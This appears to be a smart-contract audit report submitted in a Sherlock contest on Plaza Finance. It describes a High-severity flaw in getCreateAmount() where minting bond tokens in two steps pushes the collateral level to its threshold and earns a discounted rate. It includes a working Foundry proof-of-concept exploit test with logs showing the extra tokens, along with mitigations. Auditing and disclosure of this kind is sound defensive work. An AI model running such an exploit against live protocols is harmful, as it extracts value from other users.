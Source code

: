 Docile Iron Seal

High

# Attacker can exploit getCreateAmount() to mint more than expected tokens

## Description
The current mechanics of [getCreateAmount()](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L306) allows an attacker to mint some bond tokens and push the CL (collateral level) down to threshold value. They can then mint additional bond tokens at a discounted rate. Example:

Imagine that `Current CL = 1.2e6 + 1` which is greater than the threshold of `1.2e6`. 
### Normal Path:
1. Bob the honest user wants to mint some bond tokens by investing 100 reserve tokens.
2. He receives `30000` bond tokens.

### Attack Path:
1. Alice the attacker wants to mint bond tokens too using her 100 reserve tokens.
2. Step1: She first calls `create()` with `10` reserve tokens and receives `300` bond tokens.
3. The CL is pushed down to threshold value of `1.2e6` and now a discounted rate will be applied due to the logic [here](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L329-L333).
4. Step2: She calls `create()` again with `90` reserve tokens and receives `30937` bond tokens.
5. Total bond tokens received = `300 + 30937 = 31237`.

Now Alice can wait for either the `ethPrice` to rise due to natural price movements or arbitrage or even via minting of leverage tokens which tend to push CL up. Once CL is above threshold, redeem for a profit. This profit would be higher than what Bob would've managed to get with his normal investment path.

## Impact
- **Bond Token Impact:** Attacker can mint more tokens than expected by gaming the system and profit. Also, holding more bond tokens for the same investment amount means a higher fixed, predictable income regardless of market volatility. Or in other words, the excess bondTokens create larger fixed USDC obligations for the protocol through coupon payments. 
- **Leverage Token Impact:** When bondToken supply increases, it [reduces the adjusted value available to levToken holders](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L339-L343). The attacker's ability to mint more bondTokens than intended means:
    - More bondSupply than should exist
    - Lower adjustedValue than should exist
    - This means levToken holders get more extreme leverage than intended
```js
uint256 adjustedValue = tvl - (BOND_TARGET_PRICE * bondSupply);
creationRate = (adjustedValue * PRECISION) / assetSupply;
```

This means a higher profit when the price moves in their favor, extracting more value than the protocol intended.

## Proof of Concept
### 1. Observe the vulnerability through existing test case
Let's first observe the issue by running an [existing test case](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/test/Pool.t.sol#L181) and adding loggers to it. We witness that minting some bond tokens pushes the CL downwards.
Make the following changes and run the test to see the output:
<details>

<summary>
Click to Expand
</summary>

```diff
  function testCreate() public {
    initializeTestCasesFixedEth();
    vm.startPrank(governance);
    Token rToken = Token(params.reserveToken);

-   for (uint256 i = 0; i < calcTestCases.length; i++) {
+   for (uint256 i = 1; i < 2; i++) {
      if (calcTestCases[i].inAmount == 0) {
        continue;
      }

      // Mint reserve tokens
      rToken.mint(governance, calcTestCases[i].TotalUnderlyingAssets + calcTestCases[i].inAmount);
      rToken.approve(address(poolFactory), calcTestCases[i].TotalUnderlyingAssets);

      string memory salt = i.toString();
      
      // Create pool and approve deposit amount
      Pool _pool = Pool(poolFactory.createPool(params, calcTestCases[i].TotalUnderlyingAssets, calcTestCases[i].DebtAssets, calcTestCases[i].LeverageAssets, "", salt, "", "", false));
      useMockPool(address(_pool));
      rToken.approve(address(_pool), calcTestCases[i].inAmount);

+     Pool.PoolInfo memory pool_info = _pool.getPoolInfo();
+     uint256 currentTVL = (3000e8 * pool_info.reserve).toBaseUnit(8);
+     uint256 currentCL = (currentTVL * 1e6) / (pool_info.bondSupply * 100);
+     console2.log("current tvl =", currentTVL);
+     console2.log("current CL  =", currentCL);

      uint256 startBondBalance = BondToken(_pool.bondToken()).balanceOf(governance);
      uint256 startLevBalance = LeverageToken(_pool.lToken()).balanceOf(governance);
      uint256 startReserveBalance = rToken.balanceOf(governance);

      vm.expectEmit(true, true, true, true);
      emit Pool.TokensCreated(governance, governance, calcTestCases[i].assetType, calcTestCases[i].inAmount, calcTestCases[i].expectedCreate);

      // Call create and assert minted tokens
      uint256 amount = _pool.create(calcTestCases[i].assetType, calcTestCases[i].inAmount, 0);
      assertEq(amount, calcTestCases[i].expectedCreate);

      uint256 endBondBalance = BondToken(_pool.bondToken()).balanceOf(governance);
      uint256 endLevBalance = LeverageToken(_pool.lToken()).balanceOf(governance);
      uint256 endReserveBalance = rToken.balanceOf(governance);
      assertEq(calcTestCases[i].inAmount, startReserveBalance-endReserveBalance);

      if (calcTestCases[i].assetType == Pool.TokenType.BOND) {
        assertEq(amount, endBondBalance-startBondBalance);
        assertEq(0, endLevBalance-startLevBalance);
      } else {
        assertEq(0, endBondBalance-startBondBalance);
        assertEq(amount, endLevBalance-startLevBalance);
      }

+     pool_info = _pool.getPoolInfo();
+     uint256 updatedTVL = (3000e8 * pool_info.reserve).toBaseUnit(8);
+     uint256 updatedCL = (updatedTVL * 1e6) / (pool_info.bondSupply * 100);
+     console2.log("\n");
+     console2.log("updated tvl =", updatedTVL);
+     console2.log("updated CL  =", updatedCL);

      // Reset reserve state
      rToken.burn(governance, rToken.balanceOf(governance));
      rToken.burn(address(_pool), rToken.balanceOf(address(_pool)));

      resetReentrancy(address(_pool));
    }
  }
```

</details>
<br>

The test made use of the [following existing configuration](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/test/data/TestCases.sol#L1396-L1406):
```js
    calcTestCases.push(CalcTestCase({
        assetType: Pool.TokenType.BOND,
        inAmount: 1250,
        ethPrice: 0, // not used
        TotalUnderlyingAssets: 1200456789222,
        DebtAssets: 25123456789,
        LeverageAssets: 1321654987,
        expectedCreate: 37500,
        expectedRedeem: 41,
        expectedSwap: 0
    }));
```

and the output logs show:
```text
[PASS] testCreate() (gas: 8581604)
Logs:

  current tvl = 3601370367666000
  current CL  = 1433469286  <---- 🔴

  updated tvl = 3601370371416000
  updated CL  = 1433467148  <---- is less than 🔴. The CL reduces after minting bondTokens.
```
<br>

### 2. Weaponize the Vulnerability
Add the following inside `test/Pool.t.sol` to see it pass when run with `forge test --mt testCreateBug -vv`:
<details>

<summary>
Click to View
</summary>

```js
  function testCreateBug() public {
    uint256 inAmount1 = 10;
    uint256 inAmount2 = 990;

    uint256 TotalUnderlyingAssets = 1000000834;
    uint256 DebtAssets = 25000000000;
    uint256 LeverageAssets = 1000000000;
    
    vm.startPrank(governance);
    Token rToken = Token(params.reserveToken);

    // Mint reserve tokens
    rToken.mint(governance, TotalUnderlyingAssets * 2);
    rToken.approve(address(poolFactory), type(uint256).max);

    // Create pool and approve deposit amount
    uint i = 42;
    string memory salt = i.toString();
    Pool _pool = Pool(poolFactory.createPool(params, TotalUnderlyingAssets, DebtAssets, LeverageAssets, "", salt, "", "", false));
    useMockPool(address(_pool));
    rToken.approve(address(_pool), type(uint256).max);
    Pool.PoolInfo memory current = _pool.getPoolInfo();
    uint256 currentTVL = (3000e8 * current.reserve).toBaseUnit(8);
    uint256 currentCL = (currentTVL * 1e6) / (current.bondSupply * 100);
    console2.log("\n");
    console2.log("current tvl =", currentTVL);
    console2.log("current CL  =", currentCL); // @audit-info : CL is above threshold
    assertGt(currentCL, 1.2e6, "not above threshold!");

    //************** CASE 1 : One-step bond token mint ****************** */
    // Take current state's snapshot
    uint256 snapshot = vm.snapshot();
    
    uint256 amountBondTokens = _pool.create(Pool.TokenType.BOND, inAmount1 + inAmount2, 0);
    console2.log("\nCase 1: \ntotal bond tokens minted via one-step route =", amountBondTokens);

    // reset state to that of snapshot's
    vm.revertTo(snapshot);
    //******************************************************************** */


    // ATTACK PATH ---------->

    //************** CASE 2 : Two-step bond token mint ****************** */
    console2.log("\nCase 2:");
    // STEP 1: mint bond tokens and push CL to threshold
    uint256 amount1 = _pool.create(Pool.TokenType.BOND, inAmount1, 0);
    console2.log("step1: amount1 =", amount1);
    Pool.PoolInfo memory updated = _pool.getPoolInfo();
    uint256 updatedTVL = (3000e8 * updated.reserve).toBaseUnit(8);
    uint256 updatedCL = (updatedTVL * 1e6) / (updated.bondSupply * 100);
    console2.log("updated tvl1 =", updatedTVL);
    console2.log("updated CL1  =", updatedCL); // @audit : gets lowered & equals threshold now
    assertEq(updatedCL, 1.2e6, "still above threshold!");

    // STEP 2: mint more bond tokens at discounted rate    
    uint256 amount2 = _pool.create(Pool.TokenType.BOND, inAmount2, 0);
    console2.log("step2: amount2 =", amount2);
    console2.log("\ntotal bond tokens minted via two-step route =", amount1 + amount2);

    assertGt(amount1 + amount2, amountBondTokens, "Failed attack: no gain of reserveTokens"); // @audit-issue : attacker profited
    //******************************************************************** */
  }
```

</details>
<br>

Output:
```text
Ran 1 test for test/Pool.t.sol:PoolTest
[PASS] testCreateBug() (gas: 7808978)
Logs:

  current tvl = 3000002502000
  current CL  = 1200001  <---- 🔴 CL is above threshold of 1.2e6

Case 1: 
total bond tokens minted via one-step route = 30000  <---- 🟢
  
Case 2:
  step1: amount1 = 300
  updated tvl1 = 3000002532000
  updated CL1  = 1200000  <---- 🔴 CL goes down to threshold of 1.2e6
  step2: amount2 = 30937
  
total bond tokens minted via two-step route = 31237  <---- is greater than 🟢

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 73.42ms (42.29ms CPU time)
```


## Mitigation 
The protocol could choose to:
1. Either add a check that the tx should revert if it causes healthy CL to become `<= 1.2e6` OR
2. As a general check, change the calculation mechanics so that CL does not deteriorate upon minting bond tokens.